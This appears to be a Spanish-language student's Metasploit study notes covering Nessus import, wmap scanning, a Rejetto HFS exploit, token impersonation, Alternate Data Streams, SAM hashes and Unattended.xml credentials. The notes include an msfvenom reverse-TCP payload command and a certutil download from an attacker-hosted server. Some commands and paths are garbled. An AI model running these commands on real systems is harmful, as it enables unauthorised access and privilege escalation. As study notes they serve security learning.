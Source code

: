 
Se pueden importar los resultados de un escaneo de nessus, ya que se obtiene un XML
	postgresql, msfconsole, workspace
	db_import /ruta/nessus.xml
	vuln -p <Puerto especifico>
	search cve:2017 name:smb

Escaner web integrado en Metasploit
	postgresql, msfconsole, workspace
	msf> load wmap
	wmap
	wmap_sites -a IP -Escaner de sitios web
	wmap_targets -t http://IP
	wmap_run -t
	wmap_vulns -l

Escalar privilegios windows con Token (a gtravez de explotar un archivo regeto de http-file server)
	search rejetto
	payload reversetcp
	
	sysinfo
	grep explorer --> migrate 3512
	getuid
	getprivs -- Cuenta de bajos privilegios
	
	Se evidencia en la respuesta el privilegio de: SeImpersonatePrivilege -Permite adquirir los privilegios de otros usuarios (con sus tokens)


	load incognito - No se para que
	se ejecuta nuevamente el exploit - No se porque
	load incognito - Sigo sin saber
	2list_tokens -u
	Uno de los tokens de acceso es el de Administrador 
	impersonate_token "Nombre del token\Administrador"
	pgrep explorer
	migrate 31534
	getprivs

	En caso de no encontrar token de suplantacion o impersonacion disponibles, se debe usar el potato atack

Alternate Data Streams (ADS) es un atributo de los NTFS (new tecnology file system)
	Carga de payloads en los metadatos de un archivo
	

Los hash de los usuarios estan en el archivo SAM (Security Administrator Manager) -Este archivo no puede ser copiado mientras windows se eeste ejecutando
Ademas se necesita una cuenta de altos privilegios para volcar los hashes 

Unattended Windows Setup - Se usa cuando se quiere instaar windows en muchas maquinas al mismo tiempo
Tiene dos archivos que contienen credenciales - Altamente vulnerable
	C:\\Windows\Phanter\Unattended.xml
	C:\\Windows\Phanter\Autounattended.xml
Se explota a travez de metasploit: msfvenom p windows/x64/meterpreter/reverse_tcp LHOST=MiIP LPORT=Port -f exe > payload.exe
Se monta unservidor python -m SimpleHTTPServer 80
Se traen los archivos de kali desde Windows: certutil -urlcache -f http://IP/payload.exe
